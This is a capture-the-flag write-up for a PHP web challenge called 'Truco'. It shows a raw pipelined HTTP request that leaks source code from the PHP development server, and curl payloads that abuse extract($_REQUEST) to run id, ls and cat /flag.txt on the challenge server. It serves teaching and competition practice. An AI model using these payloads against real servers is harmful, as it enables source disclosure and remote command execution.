




# Truco [4 Solves]

## Description

> Double dose of Truco tricks
>
> Connect here: `13.215.209.185:8080`

No attachment.

## Flag

wgmy{b7030e464dfc7ff1c899b89025699e1b}

## TL;DR

- Leak a PHP source code by [PHP Development Server <= 7.4.21 - Remote Source Disclosure](https://blog.projectdiscovery.io/php-http-server-source-disclosure/)
- RCE by `$_POST['func']($value)` and `extract($_REQUEST)`

## Solution



```php
<?php
include "flag.php";
highlight_file(__FILE__);
error_reporting(0);

$a = $_GET['a'];
$b = $_GET['b'];

if(!preg_match("/\?a=notnull/i", $_SERVER['REQUEST_URI'])){
    exit("<h2>Oops :(<h2>");
}

if(preg_match("/^[0-9+-\/\*e ]/i", $num)){
    exit("<h2>Oops Oops :(<h2>");
}

if (is_null($a)){
    if (is_numeric($num)){
        echo $flag;
    }
    else{
        echo "<h2>No flag for you yet :P<h2>";
    }
}else{
    echo "<h2>No flag for you :P<h2>";
}
?>
```

Accessing the given URL, the PHP source code is displayed.
By using `highlight_file(__FILE__);`, the code outputting itself, it's confirmed that the visible code is indeed the source code.

From reading this code only, it appears that there are certain conditions that need to be met for the flag.
One of them is that the `$num` variable must satisfy `is_numeric($num)`.
However, the `$num` variable is not defined anywhere in this code.
Although it's possible that it could be defined within the `flag.php` file that is being included, getting the flag would still be challenging without reading the implementation of `flag.php`.

On further investigation for alternative approaches, I discovered the presence of the `X-Powered-By: PHP/7.4.21` header in the response.



Investigating PHP 7.4.21, I found an article on Project Discovery regarding a vulnerability titled [PHP Development Server <= 7.4.21 - Remote Source Disclosure](https://blog.projectdiscovery.io/php-http-server-source-disclosure/) related to PHP's Development Server.

Since it was unclear whether the challenge server was using the PHP Development Server, I considered checking if the UI of the error page could provide any insights.
To do this, I input `/a.p` in the URL path to trigger a 404 page.



The UI of the 404 page displayed after inputting `/a.p` in the URL path matched the one I observed in my local environment while running `php -S 0.0.0.0:8000`.
Therefore, I guessed that the challenge server is running on the Development Server.

Referring to the Proof of Concept in Project Discovery's article, I executed the request in Burp Repeater and successfully obtained `flag.php`. Note that I unchecked the `Update Content-Length` option under Burp's `Repeater` in the top menu > `Update Content-Length` to prevent the automatic insertion of `Content-Length` in the request header.



request

```text
GET /flag.php HTTP/1.1
Host: 13.215.209.185:8080

GET /xyz.xyz HTTP/1.1

```

flag.php

```php

<?php

$flag="flag{fakeflag_dontsubmit}";

if(in_array($_REQUEST['func'], ['is_string','is_null','is_numeric'])){
    include "secret.php";
    echo $_POST['func']($value);
}

?>
```

I understood that the flag found in `flag.php` is not the correct flag.
I discovered that the `if` statement are executed when the request parameter named `func` is either a string, null, or numeric, based on checks with `is_string`, `is_null`, and `is_numeric`.

I also obtained `secret.php` using a similar approach.

secret.php

```php
<?php
extract($_REQUEST);
?>
```

I found that PHP's [extract()](https://www.php.net/manual/en/function.extract.php) function is being executed.
As shown in the sample code in the documentation, `extract()` is a function that allows the creation of arbitrary variables.
For example, from an array like `array("a" => "b")`, it creates a variable `$a` and assigns the value `b` to it.

Tested in PHP Console:

```console
php > extract(array("a" => "b"));
php > echo $a;
b
```

Re-taking a look at the code, I found that `extract($_REQUEST)` is called and then `echo $_POST['func']($value)`.
By assigning `"system"` to `$_POST['func']` and providing a command to `$value`, it becomes possible to Remote Code Execution (RCE) as `system($value)`.

```console
$ curl -X POST 'http://13.215.209.185:8080/?func=is_string&_POST\[func\]=system&value=id'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

I was able to execute arbitrary commands.
Now, all that's left is to get the flag.
Use the `ls` command to check the location of the flag, and then use the `cat` command.

```console
$ curl -X POST 'http://13.215.209.185:8080/?func=is_string&_POST\[func\]=system&value=ls+/'
bin
boot
dev
etc
flag.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
...
$ curl -X POST 'http://13.215.209.185:8080/?func=is_string&_POST\[func\]=system&value=cat+/flag.txt'
wgmy{b7030e464dfc7ff1c899b89025699e1b}
...
```
